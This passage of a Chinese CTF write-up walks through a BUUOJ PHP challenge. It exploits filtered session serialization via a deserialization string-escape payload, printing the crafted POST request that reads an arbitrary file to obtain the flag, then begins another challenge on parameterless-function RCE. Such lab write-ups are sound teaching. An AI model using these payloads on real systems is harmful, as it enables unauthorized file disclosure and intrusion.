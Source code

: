 ```
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

我们可以看到在```$function == 'phpinfo'```中提示这里默认执行的`phpinfo();`函数，会有一些提示。

```_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image```

访问链接: `http://75c9e238-5e39-44e3-ae11-13eed0518ef5.node4.buuoj.cn/?f=phpinfo`，可以看到提示`	d0g3_f1ag.php`，会像`.user.ini`那样文件包含这个php文件

![](images/mdmd2021-07-16-11-33-01.png)

接下来我们想通过反序列化来任意文件读取

`_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}&function=show_image`

获得flag的HTTP报文如下:

```
POST /index.php?f=show_image HTTP/1.1
Host: 75c9e238-5e39-44e3-ae11-13eed0518ef5.node4.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 140

_SESSION[phpflag]=%3bs%3a14%3a"phpflagphpflag"%3bs%3a7%3a"xxxxxxx"%3bs%3a3%3a"img"%3bs%3a20%3a"L2QwZzNfZmxsbGxsbGFn"%3b}&function=show_image
```



### [GXYCTF2019]禁止套娃


[参考WP](https://www.cnblogs.com/wangtanzhi/p/12260986.html)

[参考WP2](https://www.gem-love.com/ctf/530.html?replytocom=5)

[5个方法进行无参数函数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#%E4%BB%80%E4%B9%88%E6%98%AF%E6%97%A0%E5%8F%82%E6%95%B0%E5%87%BD%E6%95%B0RCE)


```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){